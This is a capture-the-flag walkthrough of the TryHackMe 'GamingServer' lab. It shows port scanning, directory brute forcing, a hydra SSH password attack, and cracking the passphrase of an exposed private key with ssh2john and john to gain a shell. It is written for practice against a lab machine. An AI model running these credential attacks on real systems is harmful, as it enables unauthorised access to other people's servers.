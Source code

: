 # THM: GamingServer

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/gaming_server/gaming_server.jpeg" alt="GamingServer" width="90"/> |
| Room | GamingServer |
| URL | [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/gamingserver) |
| Difficulty | Easy |

## Concepts/Tools Used

- [gobuster](../../tools/gobuster.md)
- [hydra](../../tools/hydra.md)
- wget
- [john](../../tools/john.md)
- lxd

## Room Description

An Easy Boot2Root box for beginners.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:
```bash
$ nmap -T4 -n -sC -sV -Pn -v -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-25 14:28 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating ARP Ping Scan at 14:29
Scanning target.thm (10.10.29.122) [1 port]
Completed ARP Ping Scan at 14:29, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:29
Scanning target.thm (10.10.29.122) [65535 ports]
Discovered open port 80/tcp on 10.10.29.122
Discovered open port 22/tcp on 10.10.29.122
Completed SYN Stealth Scan at 14:29, 1.28s elapsed (65535 total ports)
Initiating Service scan at 14:29
Scanning 2 services on target.thm (10.10.29.122)
Completed Service scan at 14:29, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.29.122.
Initiating NSE at 14:29
Completed NSE at 14:29, 0.27s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.01s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Nmap scan report for target.thm (10.10.29.122)
Host is up (0.00019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
MAC Address: 02:18:00:64:DD:0F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.35 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

SSH allows password login attempts. I start to check the site on port 80.

Inspecting http://target.thm/ has an interesting comment in html:
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->

It looks like I found a username. I check the robots.txt file and it shows the following:

```bash
user-agent: *
Allow: /
/uploads/
```

The uploads directory has a dictionary file dict.lst, I download it using the following command:

```bash
$ wget http://target.thm/dict.lst
```

Since I have a username and a dictionary, I try both on the ssh service for this machine using hydra. Here is the command I ran:

```bash
$ hydra -l john -P dict.lst target.thm ssh
```

That yield nothing.

I ran gobuster to find more directories on the server. Here is the command I ran:

```bash
$ gobuster dir -u http://target.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://target.thm/uploads/]
/secret               (Status: 301) [Size: 309]
```

The /secret directory has a single file called secretKey. It is a private rsa key. I download it using the following command:

```bash
$ wget http://target.thm/secret/secretKey
```

Since this is a private rsa key I change the permission to private read/write so I won't get a warning each time I use this. Here is the command I used to fix the permissions:

```bash
$ chmod 600 secretKey
```

I try to ssh into the machine with this key but it wants a passphrase for the key. Here is what I used to ssh with the key:

```bash
$ ssh john@target.thm -i secretKey
```

## Getting a Foothold

Since I don't have a passphrase for the ssh key, I'll need to crack it. I download ssh2john.py with the following command:

```bash
$ wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```

This programe will turn the ssh key into a format that john can understand. I run the following and save the hash as john_ssh:

```bash
$ python3 ssh2john.py secretKey > john_ssh
```

Now I have john crack the passphrase with the following command:

```bash
$ john --wordlist=dict.lst john_ssh
```

This gives me passphrase to crack the ssh key. I run the following command again to log into the server and type in the passphrase when asked:

```bash
$ ssh john@target.thm -i secretKey
```

I have a shell. I'm in!
